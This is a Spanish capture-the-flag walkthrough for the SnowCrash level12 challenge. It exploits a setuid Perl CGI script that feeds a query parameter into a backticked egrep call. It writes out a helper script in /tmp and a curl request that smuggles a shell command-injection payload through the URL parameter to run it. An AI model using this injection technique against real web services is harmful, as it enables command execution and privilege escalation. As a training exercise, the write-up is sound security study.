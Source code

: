 ### LEVEL12 (BONUS)


---

### LEVEL12 (BONUS)

- Tenemos un scrip en perl
    ```bash
    evel12@SnowCrash:~$ ls -la
    [...]
    -rwsr-sr-x+ 1 flag12  level12  464 Mar  5  2016 level12.pl
    [...]
    ```

- Lo unico interesante que veo en el codigo del script es esta línea:
    ```perl
    [...]
    @output = `egrep "^$xx" /tmp/xd 2>&1`;
    [...]
    ```

- Esta línea hace un egrep con el primer parametro de la consulta y aquí es donde está el vector de ataque

- El primer parametro es tratado para ponerlo en uppercase y quitar espacios
    ```perl
    [...]
    $xx =~ tr/a-z/A-Z/;
    $xx =~ s/\s.*//;
    [...]
    ```

- Se me ocurre intentar inyectar algo en el parametro para poder saltar el egrep y editar un archivo /tmp/xd para ejecutar condigo

- Lo primero es crear el archivo `/tmp/xd`
    ```bash
    level12@SnowCrash:~$ vi /tmp/xd
    #!/bin/bash
    /bin/getflag > /tmp/a
    ```

- Damos permisos al archivo `/tmp/xd` (importante)

- Ahora queda la inyeccion

- `"|1>&2"` quedando la línea 
    ```perl
    @output = egrep ""|1>&2"" /tmp/xd 2>&1
    ```

- se lo paso por curl
    ```bash
    curl 'http://127.0.0.1:4646/?x="|1>&2"'
    ```
- No funciona porque el caracter `&` hay que urlncoder `%26` quedando la inyeccioón `"|1>%262"`
    ```bash
    curl 'http://127.0.0.1:4646/?x="|1>%262"'
    ```
- Ahora 
    ```bash
    cat /tmp/a
    ```

- Listo

